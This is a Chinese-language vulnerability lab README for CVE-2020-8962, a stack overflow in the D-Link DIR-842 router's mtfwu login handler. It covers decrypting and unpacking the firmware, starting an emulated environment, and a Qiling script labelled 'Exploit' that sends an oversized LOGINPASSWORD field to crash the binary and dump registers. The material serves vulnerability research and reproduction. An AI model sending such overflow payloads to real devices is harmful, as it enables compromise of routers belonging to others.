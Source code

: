 # D-Link DIR-842 栈溢出漏洞（CVE-2020-8962）


## 漏洞环境

需要解密固件，方法是开启一个 `qemu-user-static` 容器，使用 qemu-mips-static 运行 DIR842C1_FW302b03_middle.bin 的 `usr/sbin/encimg` 程序对 DIR842C1_FW313WWb05.bin.org 进行解密，得到 DIR842C1_FW313WWb05.bin。

```sh
$ docker run --privileged --rm -v $PWD/firmware:/root/firmware -it firmianay/qemu-user-static /bin/bash
$ ./qemu-mips-static -L . ./usr/sbin/encimg ./DIR842C1_FW313WWb05.bin.org

# 98868352a4913aee2d2da4acd8e1a04e  DIR842C1_FW302b03_middle.bin
# c40930278051bbf66f24a657676dd5b4  DIR842C1_FW313WWb05.bin
# ae141c12535cae08e49e4876410ebb9d  DIR842C1_FW313WWb05.bin.org
```

本目录下对固件已经是解密版本，可以直接使用 `firmianay/binwalk` 解压固件：

```sh
$ docker run --rm -v $PWD/firmware/:/root/firmware firmianay/binwalk -Mer "/root/firmware/DIR842C1_FW313WWb05.bin"
```

```sh
$ docker-compose -f docker-compose-firmadyne.yml build

# 启动环境，账号/密码 root/sohoadmin
$ docker-compose -f docker-compose-firmadyne.yml up
# 等待启动完成，重新开启一个窗口做后续操作
$ docker exec -it dlink-firmadyne /bin/bash
```

## 漏洞复现

## Exploit

```py
from qiling import *

def my_syscall_sysinfo(ql, sysinfo_info, *args, **kwargs):
    ql.mem.write(sysinfo_info, b"AAAA") # uptime
    regreturn = 0
    ql.nprint("sysinfo(0x%x) = %d" % (sysinfo_info, regreturn))
    ql.os.definesyscall_return(regreturn)

# dump all registers
def dump_reg(ql, *args, **kwargs):
    for idx, val in ql.reg.save().items():
        if not isinstance(idx, int):
            print(idx, ":", hex(val))
            
    breakpoint()

class Fake_stdin:
    def read(self, size, *args, **kwargs):
        return b'ACTION=login&LOGINPASSWORD=' + b'A' * 0x248

    def fileno(self, *args, **kwargs):
        return 0

if __name__ == "__main__":

    envs = {
            "REQUEST_METHOD": "POST",
            "REQUEST_URI": "/MTFWU",
            "CONTENT_TYPE": "application/x-www-form-urlencoded",
            "HTTP_MTFWU_ACT": "Login",
            "HTTP_COOKIE": "uid=AAAA",
            "CONTENT_LENGTH": str(27+0x248), 
            }

    ql = Qiling(["squashfs-root/usr/sbin/mtfwu"], "squashfs-root", 
                output="default",
                env=envs,           # setting environment variables 
                stdin=Fake_stdin()) # hijack stdin with Fake_stdin
                
    ql.set_syscall("sysinfo", my_syscall_sysinfo)  # syscall hook for sysinfo
    ql.set_syscall("_newselect", lambda *_: None)  # hook syscall _newselect with anonymous NOP function to avoid manual input requirement
    ql.hook_address(dump_reg, 0x41db40)            # breakpoint before return and dump all register
    ql.run()
```

## 参考链接

- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-8962
- https://ctrsec.io/index.php/2020/02/12/cve-2020-8962-d-link-dir-842-stack-based-buffer-overflow/
- https://ucgjhe.github.io/post/cve_2020_8962/
